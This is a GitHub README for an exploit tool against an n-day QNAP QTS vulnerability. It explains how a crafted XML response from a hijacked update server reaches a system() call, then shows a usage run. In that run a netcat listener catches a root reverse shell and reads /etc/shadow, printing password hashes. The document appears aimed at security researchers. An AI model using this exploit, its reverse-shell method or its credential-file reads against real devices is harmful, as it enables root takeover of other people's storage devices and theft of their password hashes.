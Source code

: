 # Overkill

Overkill is an exploit for a patched vulnerability affecting QNAP QTS. Due to the way QNAP discloses vulnerabilities, I'm unsure if this issue has a CVE or not. However, it was likely patched in November 2020 and April 2021. The n-day was "discovered" while doing diff analysis for CVE-2020-2509. This is almost certainly not CVE-2020-2509. 

The exploit will send HTTP GET requests to `/cgi-bin/qnapmsg.cgi?lang=xxx` which will cause unpatched QNAP devices to download an XML file from `update.qnap.com` via insecure HTTP. An attacker that can redirect `update.qnap.com` to themselves can respond with an attacker controlled XML file. When the QNAP parses the XML file it will pass some of the contents to a `system` call, resulting in a reverse shell.

This exploit *does not* implement the method to get `update.qnap.com` requests directed to the exploit. In the example below, I was using router DNS hijacking on my own router... your mileage may vary.

## Usage Example

```
albinolobster@ubuntu:~/overkill$ sudo python3 overkill.py --rhost 10.12.70.251 --lhost 10.12.70.252

01001001001000000110001101100001011011100010011101110100001000000110011101100101
    ______  ___      ___  _______   _______   __   ___   __    ___      ___ 
   /    " \|"  \    /"  |/"     "| /"      \ |/"| /  ") |" \  |"  |    |"  |
  // ____  \\   \  //  /(: ______)|:        |(: |/   /  ||  | ||  |    ||  |
 /  /    ) :)\\  \/. ./  \/    |  |_____/   )|    __/   |:  | |:  |    |:  |
(: (____/ //  \.    //   // ___)_  //      / (// _  \   |.  |  \  |___  \  |___
 \        /    \\   /   (:      "||:  __   \ |: | \  \  /\  |\( \_|:  \( \_|:  \
  \"_____/      \__/     \_______)|__|  \___)(__|  \__)(__\_|_)\_______)\_______)

01110100001000000111010001101111001000000111001101101100011001010110010101110000

                                🦞 jbaines-r7

[+] Forking a netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Spinning up HTTP server
[!] Attempting http://10.12.70.251:8080/cgi-bin/qnapmsg.cgi?lang=eng
[+] Received an HTTP request from 10.12.70.251 on 27/Jul/2022 11:58:23
[*] Requested /loginad//qnapmsg_eng.xml
10.12.70.251 - - [27/Jul/2022 11:58:23] "GET /loginad//qnapmsg_eng.xml HTTP/1.1" 200 -
Connection received on 10.12.70.251 44630
bash-3.2# uname -a
uname -a
Linux NAS4A32F3 4.2.8 #1 SMP Sun Nov 8 01:50:48 CST 2020 aarch64 GNU/Linux
bash-3.2# id
id
uid=0(admin) gid=0(administrators)
bash-3.2# cat /etc/shadow
cat /etc/shadow
admin:!$1$5pFeLUat$D8jTQogWJy0HF3XjkD13q/:19181:0:99999:7:::
guest:$1$$ysap7EeB9ODCrO46Psdbq/:14233:0:99999:7:::
httpdusr:!:19181:0:99999:7:::
albinolobster:$1$cZCC65z5$NXtIBB4hgqzVG.PHyShKh1:19195:0:99999:7:::
[sshd]:!:19181:0:99999:7:::
bash-3.2# exit  
```

## Credit

* [Overkill](https://www.youtube.com/watch?v=vB_IynOTQU0) by Lazlo Bane featuring Colin Hay

